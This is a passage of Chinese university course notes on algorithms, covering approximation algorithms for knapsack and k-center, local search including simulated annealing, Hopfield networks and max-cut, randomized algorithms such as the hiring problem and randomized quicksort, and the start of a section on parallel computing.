- 这时候我们再把所有的价值放大 \(b\) 倍，即 \(v_i' = b \lceil v_i/b \rceil\)，此时最优解就为 \(bv\)，于是 \(bv\) 就是原问题的一个近似最优解（因为除了取整操作之外，我们只是把价值先缩小再放大）
可以证明，上述算法是 0-1 背包问题的一个 FPTAS 算法，其复杂度是 \(O(n^2 v_{max}/b) = O(n^3/\varepsilon)\) 的，近似比为 \(1+\varepsilon\)。证明就不抄了，有兴趣的可以自己搜索了解一下。
K-Center 聚类问题¶
问题描述
输入 \(n\) 个点的位置 \(s_1, \cdots ,s_n\)，以及一个整数 \(k\)，要求选择 \(k\) 个中心，使得所有点到最近中心的距离最大值 \(r(C)\) 最小化。这被称为 \(k\)-中心问题（K-Center Problem）。
思维实验：假设我们已知最优解¶
假设我们已经知道了最优解 \(r(C^*)\)，但是这时候我们还是不知道最优解对应的中心放置的位置，如果我们任意放 \(k\) 个中心，并以 \(r(C^*)\) 为半径，我们很有可能还是不能将所有的点都覆盖。
这时候我们可以转换一下思路，如果我们选择 \(s\) 为中心，设离它最近的最优解中心是 \(C_s\)，那么 \(s\) 到 \(C_s\) 的距离不会超过 \(r(C^*)\)，这时候我们把半径设置为 \(2r(C^*)\)，这样就可以把最优解中以 \(C_s\) 为中心，\(r(C^*)\) 为半径的圆内的所有点都覆盖了（因为在这个圆内任意两点之间的距离不会超过 \(2r(C^*)\)）。
于是我们就得到了一个 2-近似算法（Greedy-2r）：我们知晓最优解 \(r(C^*)\) 后，随机选择选择一个点，把以它为中心，\(2r(C^*)\) 为半径的所有点都删除，然后再从剩下的点中随机选择第二个中心，以此类推。这样经过 \(k\) 次选择后一定不会有任何点被遗漏，而且我们得到的解是最优解的 2 倍。
Greedy-2r 算法
Greedy-2r 算法在给定最优解 \(r(C^*)\) 的情况下是一个 2-近似算法。
不使用思维实验的近似算法设计¶
假如我们不知道最优解 \(r(C^*)\)，我们能否设计一个近似算法呢？事实上也是可以的：
- 我们首先从输入点集中随机选取一个点作为第一个中心，加入中心点集 \(C\)。然后每轮循环在剩余的点中找到一个点 \(s\) 的 \(\text{dist}(s,C)\) 最大，即 \(s\) 是到现有中心最短距离最大的点，将其加入中心点集 \(C\)，直到 \(C\) 中有 \(K\) 个点。这一算法的近似比是 2。
Greedy-Kcenter 算法
Greedy-Kcenter 算法是一个 2-近似算法。
Proof
我们用反证法，设最优解为 \(r(C^*)\)，并假设 Greedy-Kcenter 算法给出的最优解大于 \(2r(C^*)\)，这说明Greedy-Kcenter 算法结束后，一定存在一个点 \(s\) 距离所有的中心的距离大于 \(2r(C^*)\)，否则所有点都落在某个中心的 \(2r(C^*)\) 范围之内，最优解一定不会大于 \(2r(C^*)\)。
回顾 Greedy-Kcenter 算法的步骤，每一步我们都在选择一个距离现有中心点集 \(C'\) 最远的点，既然 \(s\) 每一步都没有被选到，这就说明我们每一步选取的点 \(c\) 都有（假设最终的中心点集为 \(C\)） $$ \text{dist}(c,C') \geqslant \text{dist}(s,C') \geqslant \text{dist}(s,C) > 2r(C^*) $$
再回顾 Greedy-2r 算法，其中我们每一步删除选择的中心的 \(2r(C^*)\) 范围内所有点，然后随机挑选一个剩余点作为中心。而我们前面得到的 \(\text{dist}(c,C') > 2r(C^*)\) 表明在我们假设的情况（到最后一步仍存在一个点 \(s\) 距离所有的中心的距离大于 \(2r(C^*)\)）下，我们在 Greedy-Kcenter 算法中每一步选择的点也是符合 Greedy-2r 算法的选择条件的，因为每一步都选择的是当前选过的中心 \(2r(C^*)\)）开外的点。
所以 Greedy-Kcenter 算法选择 \(K\) 个点就相当于 Greedy-2r 算法中选择 \(K\) 个点，而根据 Greedy-2r 算法的性质，\(K\) 步之后我们还剩下点 \(s\)没有被覆盖，说明真正的最优解一定大于 \(r(C^*)\)，与我们的假设矛盾。证毕。
聚类问题的最优近似比¶
Theorem
除非 \(P=NP\)，否则 K-center 问题不存在 \(\rho\)-近似算法（\(\rho<2\)）。
为了证明这一命题，我们需要首先引入一个 NP 完全问题：dominating set问题（注意与定点覆盖问题区分）
- 给定一个图 \(G=(V,E)\) 和一个整数 \(k\)，我们需要判断是否存在一个大小为 \(k\) 的点集 \(S \subset V\)，使得每个点要么在 \(S\) 中，要么与 \(S\) 中的某个点相邻。
我们现在通过将 dominating set 问题归约到寻找 \(\rho\)-近似 k-center 问题（（\(\rho<2\)）来证明上述定理.
证明：为了归约，我们给定一个 dominating set 问题的实例 \(G = (V,E)\) 和整数 \(k\)，我们构造一个 k-center 问题的实例：我们将 \(G\) 中相邻的点（有边把两个点直接相连）之间的距离设为 1，不相邻的点之间的距离设为 2。
显然的，此时 k-center 问题的解只可能是 1 或 2（因为所有的边长度只有 1 和 2 两种情况），并且存在半径为 1 的解当且仅当 dominating set 问题存在大小为 \(k\) 的解（由此我们看出 k-center 问题是 NP 困难的）。现在我们假设存在一个 \(\rho\)-近似算法 \(A\)（\(\rho<2\)）来解决 k-center 问题，则我们有：
- 如果 \(A\) 返回的解 \(r\) 在 \(1 \leqslant r \leqslant \rho<2\)，则说明存在一个半径为 1 的解（解只有 1 和 2 两种可能，此时不可能是 2），于是根据我们前面的分析可以知道当 \(r<2\) 时，说明 dominating set 问题存在大小为 \(k\) 的解
- 如果 \(A\) 返回的解 \(r\) 在 \(2 \leqslant r \leqslant 2\rho\)，则说明不存在一个半径为 1 的解，于是我们可以通过 \(r \geqslant 2\) 知道 dominating set 问题不存在大小为 \(k\) 的解。
由于我们的归约是多项式时间的，并且我们可以通过 \(A\) 来在多项式时间内解决 K-center 问题，这就说明我们可以在多项式时间内解决 NP 完全的 dominating set 问题，这就说明了 \(P=NP\)。
局部搜索¶
约 4643 个字 41 行代码 2 张图片 预计阅读时间 19 分钟
基本概念¶
所谓局部搜索就是在解空间中搜索一个局部最优解，但通常无法保证找到的是全局最优解。局部搜索算法的基本思想是从一个初始解出发，不断地在相邻的解（就是只需要进行改变的其他可行解）中寻找更好的解，直到满足某些停止条件为止。
局部搜索通常用于求解大规模的优化问题，尤其是那些解空间较大且不容易通过全局搜索找到最优解的问题。局部搜索的基本流程包括以下几个基本步骤：
- 初始化：从解空间中随机选择一个初始解作为当前解。
- 邻域搜索：生成当前解的邻域解，所谓邻域解就是与当前解相比只有少量改变的解。
- 选择最优邻域解：从邻域解中选择一个最优解作为当前解。
- 迭代：重复步骤 2 和 3，直到满足某些停止条件（如最大迭代次数、解的改进程度小于某个阈值等）。
局部搜索的范式¶
局部：
-
定义局部实际上就是定义邻居（neighborhood）。
假设 \(S\) 是一个可行解，\(S\) 的邻居就是一个集合 $$ N(S) = \{S' | S' \text{是} S \text{经过一个小的更改之后得到的解} \} $$
-
这里“小的更改” 需要算法设计者自己根据问题的特点定义，例如背包问题可以设置为进行一个物品的替换，旅行商问题可能是交换两个顶点的途径顺序等等
所谓的解 \(S\) 的局部也就是 \(S\) 的邻居集合 \(N(S)\)
搜索：
- 从任意一个可行解开始，不断在当前所处的解的局部（也就是邻居）中选择一个 最优解
- 直到我们无法在局部找到更优解为止
一般的局部搜索可以用下面的伪代码来描述
顶点覆盖问题¶
问题描述
给定一个无向图 \(G = (V, E)\)，顶点覆盖问题要求找到最小的一个顶点集合 \(S \subseteq V\)，使得图 \(G\) 中的每条边 \((u,v) \in E\) 至少有一个端点在 \(S\) 中。
顶点覆盖问题是一个 NP-完全问题。
在这个问题中我们定义可行解为能“覆盖”图中所有边的点集，开销为点集中顶点的数量，邻居就是把当前的解增加或减少一个顶点所构成的解。
梯度下降法¶
如果我们直接把梯度下降法套用到这个问题中，很难得到一个比较好的结果
Example

- case 0 中的图没有任何边，梯度下降法最后得到的是空集，满足定点覆盖的条件
- case 1 可以看出来，假如我们通过梯度下降法删去的点是边缘的点，那没有什么问题；但是假如我们删去的是中心的顶点，就会发现此时就再也无法删去任何一个顶点了，这虽然是一个局部最优，但显然和全局最优解相差甚远
从上面这个例子我们可以得出局部搜索与近似算法的一个很重要的区别，即局部搜索得到的解可能是没有任何近似比保证的——局部搜索只是一种启发式的算法。
Metropolis 算法与模拟退火¶
Info
这种改进的方法由 Metropolis，Rosenbluth 和 Teller 于 1953 年提出，被称为 Metropolis 算法。他们希望利用统计力学中的原理模拟物理系统的行为。在统计物理中有一个假设，当一个系统的能量为 \(E\) 时，它出现的概率为 \(e^{−E/kT}\)，其中 \(T>0\) 是温度，\(k\) 是玻尔兹曼常数。这个假设被称为 Boltzmann 分布。
显然的，当 \(T\) 固定时，能量越低的状态出现的概率越大，因此一个物理系统也有更大的概率处于能量低的状态。然后我们考虑温度 \(T\) 的影响，当 \(T\) 很大时，根据指数函数的特点，不同能量对应的概率其实差别可能不是很大；但 \(T\) 较低的时候，不同的能量对应的概率差别就会很大。
基于玻尔兹曼分布，我们可以将Metropolis 算法描述如下：
- 初始化：随机选择一个可行解 \(S\)，设 \(S\) 的能量为 \(E(S)\)，并确定一个温度T；
-
不断进行如下步骤：
- 随机选择 \(S\) 的一个邻居 \(S'\)（可以按均匀分布随机选择）；
- 如果 \(E(S') \leqslant E(S)\)，则接受 \(S'\) 作为新的解；
- 如果 \(E(S') > E(S)\)，则以概率 \(e^{-\frac{E(S')-E(S)}{kT}}\) 接受 \(S'\) 作为新的解；如果接受了则更新解，继续下一轮迭代，否则保持原解 \(S\)，继续迭代。
直观地说，Metropolis 算法就是在当前解 \(S\) 的邻居中随机选择一个解 \(S'\)，如果 \(S'\) 的能量更低则接受，否则以一定概率接受一个更差的解——这就使得我们有可能跳出一个局部最优解，有机会能够在更大的解空间中找到一个更好的解。
当然有一个值得注意的问题是，我们上面没有写算法的停止点，实际上进行到一个满意的结果中断算法即可。
在Metropolis 算法中一个重要参数是温度 \(T\)：当温度很高的时候，不同能量对应的概率差别不大，因此高温非常适合于跳出局部最优解；而 当温度很低的时候，不同能量对应的概率差别很大，这时候我们就有更大的概率进入好的解。
因此我们希望在开始的时候温度很高，这样我们就能在开始的时候跳到一个比较好的局部，然后逐渐降温，这样温度很低的时候我们就能在这个比较好的局部内找到一个比较好的解。
Hopfield 神经网络¶
吴一航学长的ADS讲义
Hopfield 神经网络是一种全连接的反馈神经网络，于 1982 年由 J.Hopfield 教授提出。Hopfield 神经网络有一个能量函数，如果能将能量函数与一个优化问题绑定，那么 Hopfield 神经网络就可以用来解决这个优化问题，例如旅行商问题。
我们主要讨论 Hopfield 神经网络的稳定构型（stable configurations）
Definition
-
Hopfield 神经网络可以抽象为一个无向图 \(G = (V, E)\)，其中 \(V\) 是神经元的集合，\(E\) 是神经元之间的连接关系，并且每条边 \(e\) 都有一个权重 \(w_e\)，这可能是正数或负数：
-
Hopfield 神经网络的一个构型 (configuration) 是指网络中每个神经元 (即图的顶点) 的状态的一个取值，赋值可能为 1 或 -1。我们记顶点 \(u\) 的状态为 \(s_u\)。
-
如果对于边 \(e=(u,v)\) 有 \(w_e>0\)，则我们希望 \(u\) 和 \(v\) 具有相反的状态；如果 \(w_e<0\)，则我们希望 \(u\) 和 \(v\) 具有相同的状态；综合而言，我们希望 $$ w_e s_u s_v < 0 $$
-
我们将满足上述条件的边 \(e\) 称为“好”的 (good)，否则称为“坏”的 (bad)。
-
我们称一个点 \(u\) 是“满意的” (satisfied)，当且仅当它所连接的所有点中，好边的权重绝对值大于等于坏边的，即
反之，如果 \(u\) 不满足这一条件，我们称其为“不满意的” (unsatisfied)。
6.最后，我们称一个构型是“稳定的（stable）”，当且仅当所有的点都是满意的
如果要设计一个局部搜索算法，我们有一个非常简单直接的方式。我们可以定义一个构型的邻居就是将其中一个点的状态取反得到的新构型，然后我们就可以设计一个局部搜索算法了：
- 我们从一个随机初始构型开始，然后检查每个点是否满意，如果有不满意的点，我们就翻转这个点的状态（那么这个点自然就变得满意了），然后继续检查，直到所有的点都满意为止
- 如果这个算法会停止，那么停止的时候我们得到的就是一个稳定构型，因为这时候所有点都满意了
我们称这个算法为状态翻转算法（state-flipping algorithm）
这个算法一定会停止吗？
先给出结论：State_flipping 算法最多翻转 \(\sum_{e \in E}|w_e|\) 次后会停止。
为了首先定义一个势能函数 \(\Phi\)，它输入一个构型 \(S\)，返回这个构型下所有好边的权重绝对值的和，即 $$ \Phi(S) = \sum_{e \in good} |w_e| $$ 显然对于任意的构型 \(S\)，\(\Phi(S) \geqslant 0\)，且最大值就是所有边权重绝对值之和，即 \(\Phi(S) \leqslant \sum_{e \in E}|w_e|\)。
假设当前状态为 \(S\),有一个不满意的点 \(u\)，我们将 \(u\) 翻转后的状态为 \(S'\)，那么 $$ \Phi(S') - \Phi(S) = \sum_{e=(u,v),e \in bad} |w_e| - \sum_{e=(u,v),e \in good} |w_e| > 0 $$ 这是因为翻转后原先与 \(u\) 相连的好边都变成了坏边，坏边都变成了好边，其余边没有变化。又因为 \(u\) 是不满意的，因此与 \(u\) 相连的坏边比好边权重绝对值之和大，所以上式大于 0
又因为势能函数只能取整数值，所以 \(\Phi(S') \geqslant \Phi(S)+1\)，这就意味着我们每次翻转一个不满意的点，势能函数就会增加至少 1。因为势能函数的取值范围是有限的（0 到所有边权重绝对值之和），所以我们的局部搜索算法一定会停止，并且至多翻转 \(\sum_{e \in E}|w_e|\) 次。
很自然地，我们还可以得到如下推论：
- 设 \(S\) 是一个构型，如果 \(\Phi(S)\) 是局部最大值，则 \(S\) 是一个稳定构型
证明：如果 \(S\) 不是一个稳定构型，那么至少有一个点是不满意的，我们可以翻转这个点，势能函数会增加至少 1，这就意味着 \(\Phi(S)\) 不是局部最大值，这与 \(\Phi(S)\) 是局部最大值矛盾。
最大割问题¶
最大割问题也是一个经典的 NP 困难问题。
问题描述
给定边权全为正的一个无向图 \(G = (V, E)\)，最大割问题要求把顶点集合 \(V\) 分成两个部分 \(A\) 和 \(B\)（此时的解记为 \((A,B)\)），使得图中的边 \((u,v)\) 的权重之和最大，其中 \(u \in A\)，\(v \in B\)，即割边的权重和最大。
也就是说我们要最大化 $$ w(A,B) = \sum_{\substack{(u,v) \in E,\\u \in A, v \in B}} w_{uv} $$
局部搜索算法¶
最大割与 hopfield 神经网络问题的联系
我们可以很自然地注意到，假如我们把 \(A\) 中的所有点赋值为 1，\(B\) 中的所有点赋值为 -1，并且注意到所有边的权重都是正数，因此这时候割边就对应于 hopfield 神经网络问题中的好边、集合 \(A\) 和 \(B\) 内部的边就对应于坏边，于是我们就发现最大割问题转换为了一个 hopfield 神经网络问题。
因此我们可以对问题进行如下的定义：
- 目标：最大化函数 \(\Phi(S) = \sum_{e \in good} |w_e|\)
- 可行解：对于顶点集的任意一个划分 \((A,B)\)
- 邻居 \(S'\)：将可行解 \(S\) 中的一个点从 \(A\) 移动到 \(B\) 或者从 \(B\) 移动到 \(A\) 后得到的新解
现在我们想要关心的是，假如我们也使用 State_flipping 算法来对最大割问题求局部最优解，我们得到的解的质量如何？首先给出结论
State_flipping 算法求解最大割问题
设 \((A,B)\) 是使用 State_flipping 算法求解最大割问题得到的一个局部最优解，\((A^*, B^*)\) 是最优解，则
Proof
记图 \(G\) 中所有边的权重之和为 \(W = \sum\limits_{(u,v) \in E} w_{uv}\)。因为 \((A,B)\) 是一个局部最优解，对于 \(u \in A\)，如果把 \(u\) 从 \(A\) 移动到 \(B\) 中会使得割边的权重和降低，即移动后 $$ \sum_{v \in A} w_{uv} \leqslant \sum_{v \in B} w_{uv} $$ 这是因为移动后 \(\sum\limits_{v \in A} w_{uv}\) 会增加，并且 \(\sum\limits_{v \in B} w_{uv}\) 会减少，即 \(u\) 好边的权重减小，坏边的权重增加。
我们对所有的 \(u \in A\) 都有上述不等式，因此将这些不等式求和就得到 $$ \sum_{u \in A} \sum_{v \in A} w_{uv} \leqslant \sum_{u \in A} \sum_{v \in B} w_{uv} $$ 显然等式左边就是集合 \(A\) 内部边的权重之和的 2 倍，因为每条边都被计算了两次；等式右边就是所有割边的权重之和，于是 $$ 2 \sum_{(u,v) \in A} w_{uv} = \sum_{u \in A} \sum_{v \in A} w_{uv} \leqslant \sum_{u \in A} \sum_{v \in B} w_{uv} = w(A,B) $$ 对称地，对于 \(u \in B\)，我们有 $$ 2 \sum_{(u,v) \in B} w_{uv} \leqslant w(A,B) $$ 同时我们又知道所有边的权重之和等于两个集合内部边权重之和加上割边的权重之和，即 $$ W = \sum_{(u,v) \in A} w_{uv} + \sum_{(u,v) \in B} w_{uv} + w(A,B) $$ 并且最大割的权重不可能超过 \(W\)，因此我们有
证毕
但是上面这一个局部搜索算法不一定能在多项式时间内解决，于是我们要想办法控制迭代地次数，也就是说我们要求算法在找不到一个能对解有 “比较大的提升” 的时候就停止，即使当时的解不是局部最优解：
- 当我们处于解 \(w(A,B)\) 时，我们要求下一个解的权重至少要增大 \(\dfrac{2\varepsilon}{n}w(A,B)\) ，其中 \(n\) 是图 \(G\) 的顶点数。
对于上面这一个算法，我们有如下结论：
定理
设 \((A,B)\) 是上述算法给出的解，\((A^*,B^*)\) 是最优解，则
并且这一算法会在 \(O(\dfrac{n}{\varepsilon} \log W)\) 次状态翻转后停止，其中 \(W\) 是所有边的权重之和
Proof
这一定理的证明类似于上一个定理的证明。
我们先证明近似比为 \(2+\varepsilon\)。当我们处于算法的结束状态时，我们的解 \((A,B)\) 应当满足，对于任意的 \(u \in A\)，我们有 $$ \sum_{v \in A} w_{uv} \leqslant \sum_{v \in B} w_{uv} + \dfrac{2\varepsilon}{n}w(A,B) $$ 于是
同理，对于 \(u \in B\)，我们有 $$ 2 \sum_{(u,v) \in B} w_{uv} \leqslant (1+|B| \dfrac{2\varepsilon}{n}) w(A,B) $$ 并且我们还知道最优解的割边权重不可能超过 \(W\)，
注意到 \(|A| + |B| = n\)，于是我们有
即 $$ \dfrac{w(A,B)}{w(A ^ *, B ^ * )} \geqslant \dfrac{1}{2+\varepsilon} $$
接下来证明时间复杂度的结论。
因为我们每次状态翻转都会使得割边权重之和变为原来的 \(1+\dfrac{2\varepsilon}{n}\) 倍，由于 \(x \geqslant 1\) 时，\((1+\dfrac{1}{x})^x \geqslant 2\)，所以有 $$ (1+\dfrac{2\varepsilon}{n})^{\dfrac{n}{2\varepsilon}} \geqslant 2 $$
所以目标函数 \(\Phi\) 变为原先的 2 倍需要的翻转次数至多为 \(\dfrac{n}{2\varepsilon}\) 次，所以在 \(O(\dfrac{n}{2\varepsilon} \log W) = O(\dfrac{n}{\varepsilon} \log W)\) 次状态翻转后能增加 \(W\) 倍（这也是目标函数从最低值 1 翻转到最大值 \(W\) 所需的最大倍数），因此时间复杂度的结论得证。
更优的邻居关系¶
事实上，在最开始引入局部搜索的时候我们就提到，局部搜索有两个关键点，第一是选取好的邻居关系，第二是每一步找到一个好的邻居继续我们的搜索。在 Metropolis 算法和模拟退火中我们特别讨论了后者（特别针对于顶点覆盖问题），现在我们需要仔细讨论前者（特别针对最大割问题）
我们选取邻居关系时应当注意以下两点：
- 每个解的邻居数目不应该太少，否则我们很容易在短短几步之内就陷入一个不佳的局部最优解；
- 每个解的邻居数目不应该太多，否则我们的搜索空间太大，我们很难在短时间内找到一个好的邻居——考虑极端情况，如果每个解的邻居数目是所有可能的解，那么我们就退化成了穷举搜索。
我们考虑最大割问题，一个非常简单的想法就是，原先我们的邻居关系是把一个点从一个集合换到另一个集合，我们可以考虑把 \(k\) 个点从一个集合换到另一个集合，这样我们就有了一个 \(k\)-flip 的邻居关系。一个显然的关系是，\((A,B)\) 和 \((A',B')\) 是 \(k\)-flip 邻居，那么必然也是 \(k'\)-flip 邻居，其中 \(k'>k\)。因此如果 \((A,B)\) 是 \(k'\)-flip 邻居关系下的局部最优解，那么它也是 \(k\)-flip邻居关系下的局部最优解（其中 \(k'>k\)）。这样我们就可以通过不断增大 \(k\) 来在每次翻转时找到一个更好的邻居关系，最后得到的解的近似比可能会更低。

然而，当 \(k\) 增大时，每一步翻转找到一个更好的邻居的时间复杂度也会增大——因为我们的搜索空间将是 \(\Theta(n^k)\) 的，在 \(k\) 稍微增大一些时这一复杂度就是不可接受的了
新的邻居关系
Kernighan 和 Lin（1970）提出了一种定义邻居关系的方式，它通过如下算法得到 \((A,B)\) 的邻居集合：
- 第一步，我们选取一个点进行翻转，我们要求选取的这个点是让翻转后结果的割边权重和最大的那个点（即使有可能最大的权重也会比现有权重低），我们标记这个被翻转的点，令翻转后的解为 \((A_1,B_1)\)
- 之后第 \(k(k >1)\) 步时，我们有前一步得到的结果 \((A_{k−1},B_{k−1})\)，以及有 \(k−1\) 个已经被标记的点。然后我们选择一个没有被标记的点进行翻转，我们要求选取的这个点是让翻转后结果的割边权重和最大的那个点（即使有可能最大的权重会比现有权重低，我们也一定要翻转），我们标记这个被翻转的点，令翻转后的解为 \((A_k,B_k)\)
- \(n\) 步之后所有点都被标记了，也就是说所有的点都恰好被翻转了一次，因此实际上就有 \((A_n,B_n)= (B,A)\)，这本质上与 \((A,B)\) 并无区别。因此上述过程（我们称为 K-L 启发式算法）得到了 \(n−1\) 个邻居，即 \((A_1,B_1),(A_2,B_2),··· ,(A_{n−1},B_{n−1})\)。因此 \((A,B)\) 是一个局部最优解当且仅当对于任意的 \(1 \leqslant i \leqslant n−1\)，我们有 \(w(A,B) \geqslant w(A_i,B_i)\)。
我们简单分析即可发现上述寻找邻居的过程是一个 \(O(n^2)\) 的过程，因此相比于简单的进行 \(k\) 比较大的 \(k\)-flip 的邻居关系，K-L 启发式算法的时间复杂度是可以接受的。总而言之，K-L 启发式算法给出的邻居比较好地权衡了算法效率和结果准确性。
随机算法¶
约 2400 个字 56 行代码 1 张图片 预计阅读时间 10 分钟
- 确定性算法：给定相同的输入，算法总是产生相同的结果
- 随机算法：给定相同的输入，算法可能产生不能的结果
随机算法通常有以下几个优点：
- 在一些问题中，通过确定性算法来求出最优解可能需要消耗大量的时间和资源，而随机算法可以在一个合理的时间内给出一个接近最优解的结果，进而达到更高的计算效率。
- 随机算法通常比其确定性对应算法更加简洁且易于实现。通过随机化决策，算法的实现往往不需要复杂的逻辑或状态跟踪。例如，某些图算法或图遍历问题，可以通过随机化方法获得高效的解决方案，而不需要依赖复杂的精确计算。
- 对于一些问题，可能没有已知的有效的确定性算法（尤其是 NP 困难问题、NP 完全问题），或者已知的最优算法计算复杂度过高，无法在实际应用中运行。此时随机算法可以提供一种可行的替代方案，通过牺牲一定的精确度来换取更高的效率。
随机算法主要可分为两类：
随机算法
-
蒙特卡洛算法（Monte Carlo Algorithm）：efficient randomized algorithms that only need to yield the correct answer with high probability
这种算法在每次运行时都会引入一定的随机性，因此其输出结果可能是不确定的。但是通过多次运行算法，能够在一定的概率下获得正确的结果。蒙特卡洛算法通常用于求解一些问题的近似解，或者在无法获得精确解的情况下，通过多次运行算法来提高结果的准确性。它常用于需要进行大量模拟或估算的问题，能够提供一个近似值，但不太需要保证结果一定完全准确。
-
拉斯维加斯算法（Las Vegas Algorithm）：randomized algorithms that are always correct, and run efficiently in expectation
这种算法虽然在每次运行时也会引入一定的随机性，但是其结果总是正确的。也就是说，拉斯维加斯算法一定会得到一个正确的结果，但是每一次运行的时间可能是不确定的，可能需要多次尝试才能找到正确的解。这类算法特别适合那些对结果准确性要求高，但对执行时间有一定容忍度的应用场景。
雇佣问题（Hiring Problem）¶
问题描述
假设我们需要从 \(n\) 个应聘者中选择其中一个聘用，但是我们不能提前知道每个应聘者的能力，只能通过面试来了解他们的能力。我们每一次只能面试一个应聘者，并且面试成本 \(C_i\) 远小于雇佣成本 \(C_h\)。
现在我们的目标是找到一个最优的应聘者，即能力最强的应聘者。
对于这个问题，显然我们更关注的是面试和雇佣的总成本，而算法运行的时间，假设我们把所有人都面试了，并且雇佣了其中 \(M\) 个应聘者，那么总成本就为 \(O(NC_i + MC_h)\)。
朴素思路¶
我们可以有一个非常朴素的思路，就是依次面试所有人，假如后一个人比前一个人更优秀，就雇用他。
上面这个算法的最坏情况是后一个面试者始终比前一个更优秀，这样一来我们就需要面试 \(N\) 次，雇佣 \(N\) 个人，总成本为 \(O(NC_h)\)。
随机算法¶
假如这 \(N\) 个面试者以随机顺序被面试，那么前 \(i\) 个面试者中的任何一个都可能是目前为止最优秀的，因此根据上面的算法，第 \(i\) 个面试者被雇佣的概率为 \(\dfrac{1}{i}\)。
我们可以定义一个随机变量 \(X_i\) 如下： $$ X_i = \begin{cases} 1, & \text{第} i \text{个候选者被雇佣} \\ 0, & \text{第} i \text{个候选者不被雇佣} \end{cases} $$
那么总的雇佣次数为 \(X = \sum_{i=1}^{N} X_i\)，我们可以计算 \(E[X]\)： $$ E[X] = E \left[ \sum_{i=1}^{N} X_i \right] = \sum_{i=1}^{N} E[X_i] = \sum_{i=1}^{N} \dfrac{1}{i} = \ln N + O(1) $$
因此总的成本为 \(O(C_h \ln N + NC_i)\)
因此上面的算法就变成了
显然，这个算法的关键部分在于进行随机排序。我们可以通过下面的算法进行随机排序：
- Assign each element A[i] a random priority P[i], and sort
即给每一个元素都随机生成一个优先级，然后按照这个优先级对它们进行排序
在线雇佣问题¶
在在线雇佣问题中，我们仍然是每一次都是能面试一个人，但是我们这一次只聘用一个人，并且每一次面试之后必须立即决定是否聘用被试者
- 假如聘用，那么后续就不再进行任何面试
- 假如不聘用，那就继续面试下一个人，并且未被选择的人后续也不可以回过头来再聘用
我们可以有如下的算法：
算法的思路为首先面试前k个人，但是都不聘用，记住这k个人里面最高的得分，然后从第k+1个人开始面试，一旦有人比这个最高分表现更好的人就立即聘用，后续就不再进行面试了。如果一直没有找到表现比前面的最高分更好的人，就聘用最后一个人。
对于这个问题我们需要关注两个方面：
- 对于给定的
k，我们能招聘到所有面试者中最好的那一个的概率是多少？ k取什么值才能使上面这一个概率最大化？
Proof
令 \(S_i\) 表示第 \(i\) 个面试者是所有面试者中最好的，并且能被我们聘用，那么要使 \(S_i\) 成立，需要满足以下两个条件
- \(A\)：最好的应聘者在位置 \(i\)，概率为 \(\dfrac{1}{N}\)
- \(B\)：从位置 \(k+1\) 到位置 \(i-1\) 没有人被聘用，也就是说前 \(i-1\) 个人之中，表现最好的在前 \(k\) 个人中，概率为 \(\dfrac{k}{i-1}\)
于是事件 \(S_i\) 发生的概率为 $$ \Pr[S_i] = \Pr[A \cap B] = \Pr[A] \cdot \Pr[B] = \dfrac{1}{N} \cdot \dfrac{k}{i-1} = \dfrac{k}{N(i-1)} $$ 我们能雇佣到所有面试者中最好的那一个的概率为 $$ \Pr[S] = \sum_{i=k+1}^N \Pr[S_i] = \sum_{i=k+1}^N \dfrac{k}{N(i-1)} = \dfrac{k}{N} \sum_{i=k}^{N-1} \dfrac{1}{i} $$
上式中的连加式的范围被下面的这个积分式控制住了 $$ \int_k^N \dfrac{1}{x} dx \leqslant \sum_{i=k}^{N-1} \dfrac{1}{i} \leqslant \int_{k-1}^{N-1} \dfrac{1}{x} dx $$
于是对于给定的k，我们能招聘到所有面试者中最好的那一个的概率满足
$$ \dfrac{k}{N} \ln \left( \dfrac{N}{k} \right) \leqslant \Pr[S] \leqslant \dfrac{k}{N} \ln \left( \dfrac{N-1}{k-1} \right) $$
我们可以通过简单的求导来找到一个k来使这个概率最大
$$ \dfrac{d}{dk} \left[ \dfrac{k}{N} \ln \left( \dfrac{N}{k} \right) \right] = \dfrac{1}{N} (\ln N - \ln k - 1) = 0 $$
$$ \Rightarrow k = \dfrac{N}{e} $$
令 \(f(k) = \dfrac{k}{N} \ln \left( \dfrac{N}{k} \right)\)，并带入上面的 \(k\)，我们可以得到 $$ f(k)_{max} = \dfrac{1}{e} $$
因此，当 \(k = \dfrac{N}{e}\) 时，我们能招聘到所有面试者中最好的那一个的概率至少为 \(\dfrac{1}{e}\)
随机化快速排序¶
回顾传统的快速排序，我们通常选择一个 pivot，然后将数组分为两部分，小于 pivot 的放在左边，大于 pivot 的放在右边，然后递归的对左右两部分进行递归排序。
但是假如我们每一次选择到的 pivot 都是最大或者最小的元素，就会导致实际上每一次运行都只能减少一个需要排序的元素，就会达到最坏的情况，时间复杂度为 \(O(N^2)\)。
在平均情况下，快速排序的时间复杂度为 \(O(N \log N)\)，这需要我们每一次都足够随机地选择 pivot。
为了使得每一个元素都足够随机地被选为 pivot，我们希望这个 pivot 满足下面两个条件
- 中心分割（central splitter）：pivot 可以使得每一侧至少包含 \(\dfrac{n}{4}\) 个元素
- 改进快速排序（Modified Quicksort）：每一次递归之前总是选择一个中心分割的 pivot

从上图中可以看出我们选择到一个中心分割的 pivot 的概率为 \(\dfrac{1}{2}\)，因此从期望的角度来看，我们至多需要选择 2 次才能选到一个中心分割的 pivot。
我们还可以给出下面的定义
- Type \(j\)：the subproblem \(S\) is of type \(j\) if $ N \left( \dfrac{3}{4} \right)^{j+1} \leqslant |S| \leqslant N \left( \dfrac{3}{4} \right)^j $
我们可以推出至多有 \(\left( \dfrac{4}{3} \right)^{j+1}\) 个属于 type \(j\) 的子问题。
对于一个属于特定的 type \(j\) 的子问题，我们可以计算其时间复杂度的期望值 $$ E [T_{\text{type } j}] = O(N \left( \dfrac{3}{4} \right)^j) \times \left( \dfrac{4}{3} \right)^{j+1} = O(N) $$ 而不同的 type 的总个数为
- Number of different types = $ \log_{4/3} N = O(\log N) $
两者合并就可以得到最终的时间复杂度为 \(O(N \log N)\)
并行算法¶
约 6349 个字 22 行代码 12 张图片 预计阅读时间 26 分钟
并行算法的主要设计思路是将一个大的任务分解为多个互不干扰的小任务，然后将这些小任务分配给多个处理器并行执行，从而更好利用现代计算机多核的优势，提高计算的效率和性能。虽然在对问题进行分解和合并时有可能会增加任务的整体工作量，但由于我们可以使用多个处理器来运行这个任务，实际上的计算时间会大大减少。
概念与定理¶
加速比
加速比（Speedup）是指在并行计算中，使用 \(p\) 个处理器时相对于使用一个处理器时的性能提升比例，即 $$ S(p) = \frac{T_1}{T_p} $$ 其中 \(T_1\) 是使用一个处理器时的运行时间，\(T_p\) 是使用 \(p\) 个处理器时的运行时间。
